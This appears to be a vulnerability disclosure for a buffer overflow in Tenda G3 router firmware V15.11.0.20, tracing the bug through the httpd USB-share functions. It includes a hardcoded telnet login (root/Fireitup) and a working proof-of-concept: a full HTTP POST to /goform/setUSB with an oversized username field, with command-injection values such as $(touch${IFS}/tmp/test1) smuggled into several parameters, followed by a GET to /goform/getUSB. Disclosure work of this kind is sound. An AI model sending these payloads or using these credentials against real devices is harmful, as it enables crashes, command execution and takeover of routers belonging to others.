



# Tenda G3 Buffer overflow vulnerability

## Overview

- Manufacturer's website information：<https://www.tenda.com.cn/>
- Firmware download address ：<https://www.tenda.com.cn/product/download/G3.html>

## Vulnerability information

There is a Buffer overflow vulnerability in tenda G3 V15.11.0.20, which can cause httpd to crash, or even execute arbitary code.

## Affected version


Figure shows the latest firmware of V3：V15.11.0.20.

## Vulnerability details

open telnet  <http://192.168.0.1/goform/telnet>
telnet admin/password is root/Fireitup

using ida to analysis httpd, in function formSetUSBShareInfo:



The program passes the contents obtained by the usbPrivilegedUserName parameter to usbServerPrivilegedUserName.
Then, usbServerPrivilegedUserName is set to usb.samba.user stored in the system by function SetValue.  



In function formGetUSBShareInfo, usb.samba.user is passed to mibValue by function GetValue, mibValue is an array of finite length.
There is no size check, so there is a vulnerability that can cause buffer overflow through usbPrivilegedUserName parameter.

## Vulnerability exploitation condition

Need to get cookie after logging in and send two packets to execute the attack.
The functional data packets are as follows, and we will use this to construct poc.  
First is

```http
POST /goform/setUSB HTTP/1.1
Host: 192.168.0.252
Content-Length: 793
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.252
Referer: http://192.168.0.252/USB/usbFileShare.html?0.07972570565071435
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _:USERNAME:_=; G3v3_user=
Connection: close

usbPrivilegedUserName=admin$(touch${IFS}/tmp/test1)AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&usbPrivilegedUserPwd=admin$(touch${IFS}/tmp/test2)&usbOrdinaryUserName=guest$(touch${IFS}/tmp/test3)&usbOrdinaryUserPwd=guest$(touch${IFS}/tmp/test4)
```

second is

```http
http://192.168.0.252/goform/getUSB
```

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Connect physical devices
2. Attack with the POC

The poc and reproduction results are as follows:



Figure shows POC attack effect, the web crashed.

## CVE-ID

unsigned
